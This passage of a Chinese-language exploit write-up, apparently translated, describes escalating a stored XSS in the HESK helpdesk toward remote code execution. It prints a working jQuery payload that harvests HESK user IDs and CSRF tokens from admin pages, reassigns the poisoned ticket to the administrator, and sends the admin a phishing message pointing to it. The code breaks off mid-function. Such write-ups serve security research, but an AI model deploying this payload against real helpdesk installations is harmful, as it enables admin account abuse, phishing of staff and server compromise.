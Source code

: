 ```
```  
  
我注意到如果我改回设置，PHP 文件不会被删除。正如您在上面的脚本中看到的那样，我们提供了隐身功能，我们接受了它。就这样，我们发现了一个秘密的 gh0st 漏洞，导致目标网络服务器上出现 RCE！好吧，这假设这张邪恶的票据落在帮助台系统的管理员用户身上。我们都知道到底是谁的母亲假设。那么让我们对此进行改进。  
  
想象一下，票证被自动分配给有限的用户。如果是这种情况，我们可以将其重新分配给管理员用户：D。进一步研究表明，向其他用户发送消息的页面实际上似乎列出了 HESK 管理区域的所有注册用户。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6j0YuvJoWkMUiaWVz5zxCwWTdeJG44alYEticADGEicQw50PicXo81MuRdQ/640?wx_fmt=png&from=appmsg "")  
  
这很有帮助，而且 - 用户 ID 也被公开了。除非有人严重搞乱了 HESK 的安装，否则 userid 1 将始终是管理员用户。它无法删除或降级。  
  
在这些领域中进一步的 XSS 似乎是不可能的，但是查看 mail.php  
$_SESSION['mail']['message'] = hesk_makeURL($_SESSION['mail']['message']);告诉我们 url 将被解释为链接。有了这些知识，我们就可以向 admin/mail.php 页面发出有效负载请求，以获取列表中数量最少的用户（0 除外），并且如果我们有足够的权限，则可以将票证重新分配给管理员用户，否则进行网络钓鱼管理员用户有一条有趣的消息链接到我们的中毒票证：D。  
```
(function(){
  $(document).ready(function () {
    var token = 0;
    var ticket = "";
    var sendIt = function(url, postdata) { 
      $.post(url,postdata);
      return "hey";
    };
    var parseAdmin = function(htmldata) {
      var f = $('form[name="form2"]', $(htmldata));
        var u = $(f[0][1]);
      var a = [];
      $(u[0]).find('option').each(function(i,v) {
        if(v.value != 0) { a[v.value] = v.text }  
      });
      if (a[1] != null) {
        return 1; 
      } else {
        // We assume that next user that was created after admin has privs...
        for (uu in a) {
          if(a.hasOwnProperty(uu)) {
            return uu;
          }
        } 
      }
    };
    var getMailInfo = function() {
      return $.when($.get('/admin/mail.php'));
    };
    var reAssignPayload = function(reAssignTo) {
      data = {
        "owner": reAssignTo,
        "track": ticket,
        "token": token
      };
      sendIt('/admin/assign_owner.php', data);
    }
    var sendMessage = function(token, recipient) {
      var data = {
        "to": recipient, 
        "subject":"I need your input on this ticket",
        "message":"Please read the log for ticket: " + window.location.href + "\n\nWhat do you think?\nThanks.",
        "signature":1,
        "token":token,
        "a":"send"};
      sendIt("/admin/mail.php", data)
    };
    var passThePayload = function() {   
```
